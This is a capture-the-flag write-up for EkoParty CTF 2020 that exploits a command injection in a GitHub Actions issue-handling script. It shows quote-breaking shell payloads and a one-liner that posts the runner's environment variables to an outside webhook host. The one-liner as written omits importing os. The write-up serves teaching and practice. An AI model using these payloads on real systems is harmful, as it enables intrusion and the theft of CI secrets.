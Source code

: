 # Env Writeup

EkoParty CTF 2020 Git 3

## Prompt

Not too sure of the original prompt, however I did not need it.

## Solution

After [the second part of the git challenge saga](../docs), we have gotten a new repository with some new github actions. We know, before analyzing these however, that:

 - Issues filed to the `ekolabs` repo will be 'moved' to the `ekoparty-internal` repo. 
 - We control content in the submitted issues, and this is copied to the new issues in `ekoparty-internal` repo.

That's good information. Now let's examine the actions for this repo - we are provided an [issue-notify.py](issue-notify.py) and an [issue-notify.yml](issue-notify.yml). At first glance at the python script, we see two interesting things:

1. The script checks `if 'very important' in title:` before executing an `os.system()` call
2. The script runs our 'user input' (the body of the issue) in the call to `os.system()`.

What can we do with this? If we put "very important" in the title, and we include a specific body, we can execute arbitrary commands using the call to `os.system()`. How so? 

```python
os.system('echo "%s" > /tmp/%s' % (body, notify_id))
```

This line is vulnerable, as the `body` of our issue is placed in it's entirety in the place of the first `%s`, so if we were to enter `"`, this would become:

```python
os.system('echo """ > /tmp/%s' % (body, notify_id))
```

Which would echo an empty string to `/tmp/$notify_id`. This will not do, however, so we need something more complicated to do the trick. Maybe something like sending `body` of `"; sleep 10; echo "` will do better, as it will turn into:

```python
os.system('echo ""; sleep 10; echo "" > /tmp/%s' % (body, notify_id))
```
> Note: I did not come up with this all in one shot, I had to prototype it. I did this with the [test.py](test.py) script.

This will execute the `sleep 10` just fine. We have code execution now, we just need to find out what to do with it. The challenge name indicates the flag is likely stored in the environment variables so we know where to look, but how to extract this info from the server?

To determine what tools are available for use, I looked to [issue-notify.yml](issue-notify.yml):

```yml
    runs-on: ubuntu-latest
    steps:
      
      ...

      - name: Set up Python3
        if: ${{ success() }}
        uses: actions/setup-python@v1
        with:
        	python-version: "3.7"
```

We at least have a default installation of Python 3.7 to work with, that's pretty good. To make use of that, we will need to have somewhere to send it, and that's where a webhook tester, something that captures and displays (in this case) http requests sent to it. For this I used PipeDream. It provides you with a link to send requests to.

From there, it's as easy as getting the environment variables `os.environ`, and sending them home to PipeDream with a little one-line bash / python script of sorts:

```bash
" && python3 -c "import requests; message = {'message': str(os.environ)}; r = requests.post('https://e756afb172e9b06dad06e8cfeff52a32.m.pipedream.net',data = message);" && echo "
```

That's all there is to it: sending that returns [envs](envs) to PipeDream, and it's right in there. 

```
EKO{b08bb4814d581e6a91b3501f8c63c7786fe624e1}
```

~ Lyell Read
